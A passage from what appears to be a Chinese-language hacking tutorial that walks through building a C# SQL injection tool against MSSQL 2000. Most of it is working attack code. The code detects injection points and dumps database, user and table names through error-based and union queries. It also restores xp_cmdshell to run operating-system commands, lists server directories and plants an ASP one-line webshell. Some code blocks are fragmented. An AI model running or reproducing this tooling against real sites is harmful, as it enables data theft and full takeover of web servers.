            getHttpStatuscodeAndContentLength(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)<=8--", out StatusCode_12, out ContentLength_12);

            if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
            {
                comboBox_database.Text = "MSSQL2005";
            }
            else
            {
                comboBox_database.Text = "MSSQL2000";
            }
        }

        return; // 存在数字型注入点，返回退出此函数，不再继续检测
    }

    ......
    ......
}

private void checkInjectionWithKeyword()
{
    ......
}
```

```csharp
/* my_checkUrl 是我们定义的要检测的 URL，m_KeyWord 是我们指定的关键字，getHttpContent() 函数的作用是得到网页的内容 */
if (getHttpContent(my_checkUrl + " and 1=1").Contains(m_KeyWord) && !getHttpContent(my_checkUrl + " and 1=2").Contains(m_KeyWord))
{
    comboBox_type.Text = "数字型";
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + my_checkUrl + " 存在数字型注入点" + "\r\n";
    if (getHttpContent(my_checkUrl + " and user=0--").Contains("转换为数据类型为 int"))
    {
        if (getHttpContent(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>8--").Contains(m_KeyWord))
        {
            comboBox_database.Text = "MSSQL2005 with error";
        }
        else
        {
            comboBox_database.Text = "MSSQL2000 with error";
        }
    }
    else
    {
        if (getHttpContent(my_checkUrl + " and substring(cast(SERVERPROPERTY('productversion') as nvarchar(4000)),1,1)>8--").Contains(m_KeyWord))
        {
            comboBox_database.Text = "MSSQL2005";
        }
        else
        {
            comboBox_database.Text = "MSSQL2000";
        }
    }
    return; // 存在数字型注入点，返回退出此函数，不再继续检测
}
......
（详细代码参见实例2源程序）


```
图52 运行界面

里面有一句代码 `getHttpContent(my_checkUrl + " and user=0--").Contains("转换为数据类型为 int")`，意思是当我们访问 URL 加上 `and user=0--` 返回的信息中包含“转换为数据类型为 int”时，我们就确定错误提示是开启的。getHttpContent() 函数是获取网页的源代码。最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在注入漏洞，数据库为 “mssql” 数据库，然后程序会自行判断 MSSQL 的版本以及错误提示是否开启，如图52所示。

检测出存在数字型注入漏洞，开启了错误提示，数据库为 MSSQL Server 2000。

#### 3.2 MSSQL2000 注入工具——错误提示版

##### 3.2.1 获取基本信息

前面介绍了 MSSQL 有很多的内置变量，我们可以利用这些内置变量来获取数据库服务器的一些基本信息，包括当前连接的用户、当前数据库名、服务器名等。在错误提示开启的情况下，我们可以根据返回的信息得到数据。

我们的程序该如何去实现这样的功能呢？首先我们构造需要的 URL，然后根据错误提示的信息直接取得我们需要的数据。

例如我们想得到当前 SQL Server 的版本，提交 `http://stuic.xxx.cn/News.aspx?id=861 and @@version>0--`，返回结果如图 53 所示。
我们需要的版本信息包含在“值”和“转换为数据类型为”两个字符串之间，程序只要通过字符串操作取出“值”和“转换为数据类型为”之间的值，就是我们需要的版本信息。

我们定义一个函数 `getErrorContent(string m_HttpUrl, string firstString, string EndString)`，这个函数的作用就是访问 `m_HttpUrl` 指定的 URL 地址，返回 `firstString` 和 `EndString` 之间的 HTML 代码。例如我们提交 `http://stuic.xxx.cn/News.aspx?id=861 and user>0--`，将会返回“将 nvarchar 值 'homePage' 转换为数据类型为 int 的列时发生语法错误”，`getErrorContent` 这个函数的作用就是得到字符串“值”和字符串“转换为数据类型为”之间的内容，即“homePage”。代码如下：

```csharp
/* 首先我们定义一个函数 getErrorContent()，这个函数实现下面的功能：
 * 首先取得我们访问某个 URL 的网页内容，然后从返回的内容中取出来两个字符串之间的内容，
 * 在这里我们就是要取出“值”和“转换为数据类型为 int”两个字符串之间的值
 */
private string getErrorContent(string m_HttpUrl, string firstString, string EndString)
{
    try
    {
        WebClient myWebClient = new WebClient();
        // 获取或设置用于对 Internet 资源的请求进行身份验证的网络凭据。
        myWebClient.Credentials = CredentialCache.DefaultCredentials;
        byte[] myDataBuffer = myWebClient.DownloadData(m_HttpUrl);
        // log 信息显示访问的 URL
        richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + m_HttpUrl + "\r\n";
        string strWebData = Encoding.Default.GetString(myDataBuffer);
        // 利用正则表达式获取网页字符编码描述信息 ...
        Match charSetMatch = Regex.Match(strWebData, "<meta([^<]*)charset=([^<]*)\"", RegexOptions.IgnoreCase | RegexOptions.Multiline);
        string WebCharSet = charSetMatch.Groups[2].Value;
        if (WebCharSet != null && WebCharSet != "" && Encoding.GetEncoding(WebCharSet) != Encoding.Default)
            strWebData = Encoding.GetEncoding(WebCharSet).GetString(myDataBuffer);
        else
            strWebData = Encoding.Default.GetString(myDataBuffer);
        return strWebData;
    }
    catch (WebException ex)
    {
        StreamReader sr = new StreamReader(ex.Response.GetResponseStream(), Encoding.Default);
        string str = sr.ReadToEnd();
        int start = str.IndexOf(firstString); // 得到起始字符串的位置
        int end = str.IndexOf(EndString);     // 得到终止字符串的位置
        if (end >= start)
        {
            str = str.Substring(start + firstString.Length, end - start - firstString.Length); // 取得起始字符串和终止字符串之间的内容
            return str;
        }
        return "";
    }
}
```

然后我们定义一个函数 `getInformation()`，这个函数实现下面的功能：首先根据我们需要猜解的信息列表构造一个 `foreach` 循环，然后在每次循环中依次猜解出一项信息内容。

```csharp
private void getInformation()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 URL
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    foreach (ListViewItem itemTmp in listView_information.CheckedItems) // 根据选中的需要猜解的基本信息项构造 foreach 循环
    {
        switch (itemTmp.Text.Trim())
        {
            case "version": // 得到数据库版本信息
                myQueryUrl = my_checkUrl + " and @@version>0--";
                string my_version = getErrorContent(myQueryUrl, "值：", "'"); // 转换为数据类型
                itemTmp.SubItems[1].Text = my_version;
                break;

            case "user": // 得到数据库当前用户信息
                myQueryUrl = my_checkUrl + " and user>0--";
                string my_user = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
                itemTmp.SubItems[1].Text = my_user;
                break;

            case "system_user": // 得到数据库系统用户信息
                myQueryUrl = my_checkUrl + " and system_user>0--";
                string my_system_user = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
                itemTmp.SubItems[1].Text = my_system_user;
                break;

            case "host_name": // 得到数据库当前连接客户端信息
                myQueryUrl = my_checkUrl + " and host_name()>0--";
                string my_host_name = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
                itemTmp.SubItems[1].Text = my_host_name;
                break;

            case "servername": // 得到数据库服务端信息
                myQueryUrl = my_checkUrl + " and @@servername>0--";
                string my_servername = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
                itemTmp.SubItems[1].Text = my_servername;
                break;

            case "db_name": // 得到当前数据库名
                myQueryUrl = my_checkUrl + " and db_name()>0--";
                string my_db_name = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
                itemTmp.SubItems[1].Text = my_db_name;
                comboBox_dbName.Text = my_db_name;
                break;

            case "Privilege": // 得到当前用户权限
                myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bcast((is_srvrolemember('sysadmin') as varchar(100))%2bchar(94)%2bchar(94)%2bchar(94)>0--";
                string my_privilege = getErrorContent(myQueryUrl, "值 '^^^", "^^^' 转换为数据类型为");
                // MessageBox.Show(my_privilege);
                if (my_privilege == "1")
                {
                    itemTmp.SubItems[1].Text = "sysadmin";
                    break;
                }
                else
                {
                    myQueryUrl = my_checkUrl + " and char(94)%2bchar(94)%2bchar(94)%2bcast(is_member('db_owner') as varchar(100))%2bchar(94)%2bchar(94)%2bchar(94)>0--";
                    my_privilege = getErrorContent(myQueryUrl, "值 '^^^", "^^^' 转换为数据类型为");
                    // MessageBox.Show(my_privilege);
                    if (my_privilege == "1")
                    {
                        itemTmp.SubItems[1].Text = "db_owner";
                        break;
                    }
                    else
                    {
                        itemTmp.SubItems[1].Text = "public";
                    }
                }
                break;

            case "databases": // 得到系统所有可用数据库名
                myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(name) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [master]..[sysdatabases])>0--";

                // 这里我们猜解可用数据库个数
                string databaseNum = getErrorContent(myQueryUrl, "值 '^^^", "^^^' 转换为数据类型为");
                for (int i = 1; i <= Int32.Parse(databaseNum); i++)
                {
                    string myQueryDb = my_checkUrl + " and (select top 1 cast([name] as nvarchar(4000)) from (select top " + i + " dbid,name from [master]..[sysdatabases] order by [dbid]) t order by [dbid] desc)>0--";
                    string my_database = getErrorContent(myQueryDb, "值 '", "' 转换为数据类型为");
                    comboBox_dbName.Items.Add(my_database);
                    itemTmp.SubItems[1].Text = itemTmp.SubItems[1].Text + my_database + " ";
                }
                break;
        }
    }
}
```

然后我们双击“获取信息”按钮，编辑函数代码异步调用 `getInformation()` 函数代码，具体代码如下：

```csharp
private void toolStripButton_getInfo_Click(object sender, EventArgs e)
{
    DelegateToGuessInformation delHTStartGuess = new DelegateToGuessInformation(getInformation);
    // getInformation() 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetInformation); // EndGetInformation() 异步调用返回后自动执行的代码
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}
// 详细代码参见实例3源程序


```

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在注入漏洞，数据库为“mssql2000 with error”，错误提示开启下的 MSSQL2000。然后我们在下面的列表框中选中需要猜解的基本信息，单击“获取信息”按钮，返回结果如图 54 所示。

##### 3.2.2 获取数据

前面介绍过 MS SQL Server 里面可以有很多不同的数据库。MS SQL Server 默认安装了 master、model、msdb、northwind、pubs、tempdb 这 6 个数据库，其中 northwind、pubs 是系统自带的实例数据库，其它都是系统数据库。数据库名称在 master 数据库中的 sysdatabases 数据表中。
图 54 获取到的信息

数据首先就要明确猜解哪个数据库里的数据。在“获取信息”的 `getInformation()` 函数中，我们通过遍历 sysdatabases 表得到所有可用的数据库名。我们在猜解数据表前要先选择好要猜解的数据库名。代码如下：

```csharp
/* 首先我们定义一个函数 get_table()，实现遍历某个指定数据库中 sysobjects 表的 name 字段猜解全部数据表的功能 */
private void get_table()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string databaseName = comboBox_dbName.Text.Trim(); // 取得当前选中要猜解数据库的名

    string myQueryUrl = "";
    listView_getTables.Items.Clear(); // 清空数据表中的内容
    switch (injection_Type) // 根据不同的注入点类型构造不同的 URL
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25";
            break;
    }

    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [" + databaseName + "]..[sysobjects] where xtype='u')>0--";
    string tableNum = getErrorContent(myQueryUrl, "值 '^^^", "^^^' 转换为数据类型为");
    for (int i = 1; i <= Int32.Parse(tableNum); i++)
    {
        myQueryUrl = my_checkUrl + " and (select top 1 cast([name] as nvarchar(4000)) from (select top " + i + " name from [" + databaseName + "]..[sysobjects] where xtype='u' order by [name]) t order by [name] desc)>0--";
        string tableName = getErrorContent(myQueryUrl, "值 '", "' 转换为数据类型为");
        listView_getTables.Items.Add(tableName);
    }

    MessageBox.Show("表名猜解完毕");
}
```

然后我们双击“获取表名”按钮，编辑函数代码，异步调用 `get_table()` 函数代码，具体代码如下：

```csharp
public delegate void DelegateToGetTable();
private void toolStripButton_getTables_Click(object sender, EventArgs e)
{
    DelegateToGetTable delHTStartGuess = new DelegateToGetTable(get_table); // get_table 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetTable); // EndGetTable 异步调用返回后自动执行的代码
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}


```

最后按 `Ctrl+F5` 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在注入漏洞，数据库为“mssql2000 with error”数据库（错误提示开启下的 MSSQL2000）；然后在下面的列表框中选中需要猜解的基本信息，单击“获取信息”按钮，得到数据库基本信息；然后在“选择数据库”后面的下拉列表框中选择当前数据库“onlineclass”，切换到“获取数据”选项页中，单击“获取表名”按钮，开始猜解数据库“onlineclass”的用户表，最后返回结果如图55所示。
图55 猜解数据库“onlineclass”的用户表

猜解列名及数据内容和猜解表名的过程是一样的。前面我们已经介绍过猜解数据的原理和猜解数据库表名的代码，我们可以参考猜解表名的代码来实现猜解列名和记录内容的功能，最后完善的功能如图56所示。
图56 猜解列名及数据内容

具体的实现代码大家参照光盘实例4。

##### 3.2.3 执行命令

前面我们介绍过执行命令的过程，在浏览器里提交我们构造好的执行命令的 URL，就可以利用系统的存储过程执行操作系统命令。

首先定义一个函数，这个函数的功能主要是模拟浏览器提交我们构造的 URL。

```csharp
/* 首先我们定义一个函数 getUrl()，实现模拟浏览器提交我们构造的 URL，这个函数只负责提交请求而不去关心请求返回的内容。这样可以提高效率。*/
private void getUrl(string url)
{
    HttpWebRequest getUrlWebRep = (HttpWebRequest)WebRequest.Create(new Uri(url));
    getUrlWebRep.UserAgent = "Mozilla/5.0 (Windows; U; Windows NT 5.1; zh-CN) pois0n injection";
    HttpWebResponse getUrlWebReq = (HttpWebResponse)getUrlWebRep.GetResponse();
    richTextBox_InjectLog.Text = richTextBox_InjectLog.Text + url + "\r\n";
    getUrlWebRep.Abort();
    getUrlWebReq.Close();
}
```

回顾一下通过 `xp_cmdshell` 执行命令并得到返回结果的过程：建立一个数据表，保存 `xp_cmdshell` 执行命令返回的结果；通过 `xp_cmdshell` 执行命令；通过 `insert into` 把 `xp_cmdshell` 返回的结果按行插入到我们上一步创建的表中；最后查询表中的内容，得到执行命令返回的结果。

我们先实现一个恢复 `xp_cmdshell` 存储过程的代码。有些管理员会把 `xp_cmdshell` 存储过程删除，这时我们首先就要恢复它。

双击“恢复 xp_cmdshell”按钮，编辑函数 `button_restoreXpcmdshell_Click` 代码，具体代码如下：

```csharp
private void button_restoreXpcmdshell_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 uri
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    myQueryUrl = my_checkUrl + ";exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll'--";
    getUrl(myQueryUrl);
}
```

我们前面介绍了 4 种执行命令的方法——`xp_cmdshell`、`sp_oacreate`、SQL 代理服务、`SandBoxMode`。把这 4 种方法的代码放到一个模块中，然后根据选择的执行命令自动执行相应的代码。

```csharp
/* 我们定义一个函数 execCommand，里面包含 4 种执行命令功能的代码，我们可以任意选择用何种方法去执行命令 */
private void execCommand()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string my_execType = comboBox_execType.Text.Trim(); // 选择执行命令的方法
    richTextBox_cmdResult.Text = "";
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 url
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }
    switch (my_execType) // 根据不同的方法去执行不同的代码
    {
        // xp_cmdshell 执行命令的功能模块
        case "xp_cmdshell":
            // 详细功能代码参照源程序
            MessageBox.Show("执行完毕");
            break;
        // sp_oacreate 执行命令的功能模块
        case "sp_oacreate":
            // 详细功能代码参照源程序
            MessageBox.Show("执行完毕");
            break;
        // SQL 代理服务执行命令的功能模块
        case "sp_add_job":
            // 详细功能代码参照源程序
            MessageBox.Show("执行完毕");
            break;
        // sandboxmode 执行命令的功能模块
        case "sandboxmode":
            // 详细功能代码参照源程序
            MessageBox.Show("执行完毕");
            break;
    }
}
```

双击“执行命令”按钮，编辑 `button_run_Click()` 函数代码，实现异步调用 `execCommand()` 函数的功能，具体代码如下：

```csharp
private void button_run_Click(object sender, EventArgs e)
{
    ...
    DelegateToExecCommand delHTStartGuess = new DelegateToExecCommand(execCommand);
    AsyncCallback callBackWhenDone = new AsyncCallback(EndexecCommand);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}


```

（详细代码参见光盘实例5源程序）
图57 利用 xp_cmdshell 执行命令

最后按 `Ctrl+F5` 编译运行。在注入点处输入需要检测的 URL。第一步选好注入类型，第二步在执行组件后面选择要执行命令的方法，我们选择 `xp_cmdshell`，单击“执行命令”按钮。
图58 利用 sp_oacreate 执行命令

返回结果如图57所示。

选择 `sp_oacreate`，单击“执行命令”按钮，返回结果如图58所示。

选择 `sp_add_job`，单击“执行命令”按钮，返回结果如图59所示。
图59 利用 sp_add_job 执行命令

##### 3.2.4 列目录

我们先回顾一下 `xp_dirtree` 列目录的过程：建立一个数据表，保存 `xp_dirtree` 列目录的结果；把 `xp_dirtree` 返回的结果写入到数据表中；查询表中的内容得到目录列表信息。

```csharp
/* 定义函数 dirTree()，通过 xp_dirtree 得到目录列表信息。建立一个数据表，保存 xp_dirtree 列目录的结果。把 xp_dirtree 返回的结果写入到数据表中，查询表中的内容得到目录列表信息。*/
private void dirTree()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    richTextBox_dirtree.Text = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 URL
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    getUrl(my_checkUrl + ";drop table poopoopoo ;create table poopoopoo ([id] [int] identity (1, 1) not null,[name] [nvarchar] (300) not null,[depth] [int] not null,[isfile] [nvarchar] (50) null)---");
    getUrl(my_checkUrl + ";insert poopoopoo exec master..xp_dirtree '" + comboBox_dirPath.Text.Trim() + "',1,1---");
    myQueryUrl = my_checkUrl + " and (select char(94)%2Bchar(94)%2Bchar(94)%2Bcast(count(*) as nvarchar(100))%2Bchar(94)%2Bchar(94)%2Bchar(94) from [poopoopoo])>0---";
    string directoryNum = getErrorContent(myQueryUrl, "^^^", "^^^");
    for (int i = 1; i <= Int32.Parse(directoryNum); i++)
    {
        myQueryUrl = my_checkUrl + " and (select top 1 char(94)%2Bchar(94)%2Bchar(94)%2Bcast([name] as nvarchar(4000))%2Bchar(94)%2Bchar(94)%2Bchar(94) from (select distinct top " + i + " * from poopoopoo order by name) t order by name desc)>0---";
        string directorytxt = getErrorContent(myQueryUrl, "^^^", "^^^");
        richTextBox_dirtree.Text = richTextBox_dirtree.Text + directorytxt + "\r\n";
    }
    MessageBox.Show("列目录完毕");
}
```

双击“列目录”按钮，编辑 `button_dirtree_Click()` 函数代码，实现异步调用 `dirTree()` 函数的功能，具体代码如下：

```csharp
private void button_dirtree_Click(object sender, EventArgs e)
{
    DelegateTodirTree delHTStartGuess = new DelegateTodirTree(dirTree);
    AsyncCallback callBackWhenDone = new AsyncCallback(EnddirTree);
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}


```

（详细代码参见光盘实例6源程序）

最后按 `Ctrl+F5` 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在注入漏洞，数据库为“mssql2000 with error”数据库（错误提示开启下的 MSSQL2000）；然后切换到“列目录”选项页，填好要列的目录路径（`c:\`），单击“列目录”按钮，成功列出 `c:\` 下的目录结构，返回结果如图60所示。
##### 3.2.5 获取 WebShell

前面我们介绍了两种写文件的方法：一种是在 `sysadmin` 权限下利用 `sp_makewebtask` 存储过程直接在 Web 目录里写入一句话的 WebShell；另一种是在 `db_owner` 权限下通过备份数据库获得 WebShell。

这里参考上面执行命令的代码，把这两种方法的代码放到一个模块中，然后根据我们选择的写入文件方法自动执行相应的代码。我们把代码放到一个函数 `writeWebShell()` 中，具体代码如下：

```csharp
private void writeWebShell()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string my_writeType = comboBox_writeType.Text.Trim();
    string databaseName = comboBox_dbName.Text.Trim();
    string myQueryUrl = "";
    richTextBox_dirtree.Text = "";
    switch (injection_Type)
    {
        case "数字型":
            break;
        case "字符型":
            my_checkUrl = my_checkUrl + "'";
            break;
        case "搜索型":
            my_checkUrl = my_checkUrl + "%25'";
            break;
    }

    switch (my_writeType)
    {
        case "backup_log":
            // getUrl(my_checkUrl + ";backup log " + databaseName + " with no_log--");
            // getUrl(my_checkUrl + ";dbcc shrinkdatabase (" + databaseName + ")--");
            getErrorContent(my_checkUrl + ";alter database " + databaseName + " set RECOVERY FULL--", "1", "2");
            getUrl(my_checkUrl + ";drop table potmp;create table potmp(cmd image)--");
            getUrl(my_checkUrl + ";backup log " + databaseName + " to disk = 'c:\\potmp' with init--");
            getUrl(my_checkUrl + ";insert into potmp(cmd) values('" + StrToHex(richTextBox_WebShellText.Text.Trim()) + "')--");
            getUrl(my_checkUrl + ";backup log " + databaseName + " to disk = '" + comboBox_filePath.Text.Trim() + "'--");
            break;
        case "sp_makewebtask":
            myQueryUrl = my_checkUrl + ";exec sp_makewebtask '" + comboBox_filePath.Text.Trim() + "','select ''' + richTextBox_WebShellText.Text.Trim() + "''' '--";
            getErrorContent(myQueryUrl, "1", "2");
            break;
    }
}
```

双击“获取 WebShell”按钮，编辑 `button_WebShell_Click()` 函数代码，实现异步调用 `writeWebShell()` 函数的功能，具体代码如下：

```csharp
private void button_WebShell_Click(object sender, EventArgs e)
{
    DelegateToWriteWebShell delWTStartWrite = new DelegateToWriteWebShell(writeWebShell);
    // get_Recodes 不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndwriteWebShell);
}
```

## 通过 GET 黑客注入编程

```cpp
// EndGetRecodes 异步调用返回后自动执行的代码
delHTStartWrite.BeginInvoke(callBackWhenDone, null);
}


```

（详细代码参见光盘实例 7 源程序）

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。第一步单击“开始检测”按钮，检测出存在注入漏洞，数据库为“mssql2000 with error”数据库，错误提示开启下的 MSSQL2000，已知网站的物理路径为 `C:\Inetpub\www\wwwroot`，在“执行方法”中选择“sp_makeWebtask”，单击“获取WebShell”按钮，在 `C:\Inetpub\www\wwwroot` 目录下成功写入包含 `<%execute request(chr(35))%>` 代码的 asp 文件 WebShell1.asp，返回结果如图 61 所示。
图 61 利用 sp_makeWebtask 成功写入文件
图 62 利用 backup_log 成功写入文件

在“执行方法”中选择“backup_log”，单击“获取 WebShell”按钮，在 `C:\Inetpub\www\wwwroot` 目录下成功写入包含 `<%execute request(chr(35))%>` 代码的 asp 文件 WebShell2.asp，返回结果如图 62 所示。

## 3.3 MSSQL2000 注入工具_union版

错误提示开启下，很容易就可以得到返回信息，但是当错误提示关闭，即没有返回详细错误信息的情况下，我们可以利用“union”查询很方便地得到返回信息。union 查询和错误提示开启 SQL 注入的利用方法大同小异。唯一的区别就是，错误提示开启的情况下，利用错误提示将返回的查询结果显示在页面上，union 查询则是将返回的查询结果直接显示在页面上。

```cpp
getUnionContent(string m_HttpUrl)
```

参数 m_HttpUrl 就是构造的 url，然后函数 getUnionContent() 会把返回的需要的信息提取出来。例如我们构造 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,db_name(),4,5,6--`，想通过 union 查询得到数据库名字，可以通过 `getUnionContent("http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select 1,2,db_name(),4,5,6--")`，就会得到数据库名字。具体代码如下：

```csharp
private string getUnionContent(string m_HttpUrl)
{
    WebClient myWebClient = new WebClient(); // 创建 WebClient 实例 myWebClient
    // 获取或设置用于对向 Internet 资源的请求进行身份验证的网络凭据。
    myWebClient.Credentials = CredentialCache.DefaultCredentials;
    byte[] myDataBuffer = myWebClient.DownloadData(m_HttpUrl);
    // log 信息显示访问的 url
    richTextBox_injectLog.Text = richTextBox_injectLog.Text + m_HttpUrl + "\r\n";
    string strWebData = Encoding.Default.GetString(myDataBuffer);
    // 利用正则表达式获取网页字符编码描述信息
    Match charSetMatch = Regex.Match(strWebData, "<meta[^<]*charset=([^<]*)\"",
        RegexOptions.IgnoreCase | RegexOptions.Multiline);
    string WebCharSet = charSetMatch.Groups[2].Value;
    if (WebCharSet != null && WebCharSet != "" && Encoding.GetEncoding(WebCharSet) != Encoding.Default)
        strWebData = Encoding.GetEncoding(WebCharSet).GetString(myDataBuffer);
    else
        strWebData = Encoding.Default.GetString(myDataBuffer);

    int start = strWebData.IndexOf("^^^");
    int end = strWebData.IndexOf("^^^");
    if (end >= start)
        strWebData = strWebData.Substring(start + 3, end - start - 3);
    return strWebData;
}
```

在 union 查询前，我们首先需要匹配 union 查询字段数和找到用以显示返回信息的字段位置，这在前面已经介绍过了。在得到了 union 字段数和显示位置后，我们需要根据字段信息构造出查询的 url。例如我们得到了一个注入点并且知道字段数为 6，显示字段位置为 3，那么我们想要得到数据库的版本信息，构造 `http://www.xxx.cn/list.aspx?id=zzfw' and 1=2 union select null,null,@@version,null,null,null--`。

下面来看一下，在程序中是如何用代码实现的。

##### 3.3.1 获取基本信息

我们以获取版本信息为例，看在 union 查询下的程序代码如何实现，具体函数代码如下：

```csharp
private void getInformation()
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    int my_fieldNum = Int32.Parse(textBox_fieldNum.Text.Trim());
    int my_disField = Int32.Parse(textBox_disField.Text.Trim());
}
```

```csharp
string myQueryUrl = "";
switch (injection_Type) // 根据不同的注入类型构造不同的 URL
{
    case "数字型":
        my_checkUrl = my_checkUrl + " and 1=2 union all select ";
        break;
    case "字符型":
        my_checkUrl = my_checkUrl + "' and 1=2 union all select ";
        break;
    case "搜索型":
        my_checkUrl = my_checkUrl + "%25' and 1=2 union all select ";
        break;
};
foreach (ListViewItem itemTmp in listView_information.CheckedItems) // 根据选中的需要猜解的基本信息项构造 foreach 循环
{
    switch (itemTmp.Text.Trim())
    {
        // 查询版本信息的模块代码
        case "version":
            myQueryUrl = my_checkUrl;
            // 构造查询 url 把 my_disField 字段前的字段都填充 null
            for (int i = 1; i < my_disField; i++)
            {
                myQueryUrl = myQueryUrl + "null,";
            }
            // 构造查询 url 把 my_disField 字段替换为要查询的内容
            myQueryUrl = myQueryUrl + "char(94)%2bchar(94)%2bcast((@@VERSION as nvarchar(4000))%2bchar(94)%2Bchar(94)%2Bchar(94)%2Bchar(94),''";
            // 构造查询 url 把 my_disField 字段后的字段都填充 null
            for (int i = my_disField + 1; i < my_fieldNum; i++)
            {
                myQueryUrl = myQueryUrl + "null,";
            }
            myQueryUrl = myQueryUrl + "null--";
            string my_version = getUnionContent(myQueryUrl);
            itemTmp.SubItems[1].Text = my_version;
            break;
        case "user":
            // 详细代码参见源程序
            break;
        case "system_user":
            // 详细代码参见源程序
            break;
        case "host_name":
            // 详细代码参见源程序
            break;
        case "servername":
            // 详细代码参见源程序
            break;
        case "db_name":
            // 详细代码参见源程序
            break;
    }
}
```

```csharp
case "privilege":
    // 详细代码参见源程序
    break;
case "databases":
    // 详细代码参见源程序
    break;
}
}
MessageBox.Show("基本信息获取完毕");
```

（详细代码参照光盘实例 8 完整程序）

双击“获取信息”按钮，编辑 `toolStripButton_getInfo_Click()` 函数代码，实现异步调用 `getInformation()` 函数的功能，具体代码如下：

```csharp
private void toolStripButton_getInfo_Click(object sender, EventArgs e)
{
    DelegateToGuessInformation delHTStartGuess = new DelegateToGuessInformation(getInformation);
    // getInformation()不能带参数
    AsyncCallback callBackWhenDone = new AsyncCallback(EndGetInformation); // EndGetInformation() 异步调用返回后自动执行的代码
    delHTStartGuess.BeginInvoke(callBackWhenDone, null);
}


```

最后按 Ctrl+F5 编译运行。在注入点处输入需要检测的 URL。单击“开始检测”按钮，检测出存在注入漏洞，数据库为“mssql2000”数据库，在字段数量里面填好匹配的 union 字段 3，在显示位置里面填好显示信息的字段位置 2，然后在下面的列表框中选中需要猜解的基本信息，单击“获取信息”按钮，返回结果如图 63 所示。
图 63 获取到的系统信息

##### 3.3.2 执行命令

这里我们仅仅以 xp_cmdshell 执行命令为例来介绍 union 查询如何执行命令并得到返回结果。

我们先实现一个恢复 xp_cmdshell 存储过程的代码，和错误提示下代码是完全一样的。双击“恢复 xp_cmdshell”按钮，编辑函数 `button_restoreXpcmdshell_Click` 代码，具体代码如下：

```csharp
private void button_restoreXpcmdshell_Click(object sender, EventArgs e)
{
    string injection_Type = comboBox_type.Text.Trim();
    string my_checkUrl = comboBox_url.Text.Trim();
    string myQueryUrl = "";
    switch (injection_Type) // 根据不同的注入类型构造不同的 url
```

```csharp
{
    case "数字型":
        break;
    case "字符型":
        my_checkUrl = my_checkUrl + "'";
        break;
    case "搜索型":
        my_checkUrl = my_checkUrl + "%25";
        break;
}
myQueryUrl = my_checkUrl + ";exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll'--";
getUrl(myQueryUrl);
```

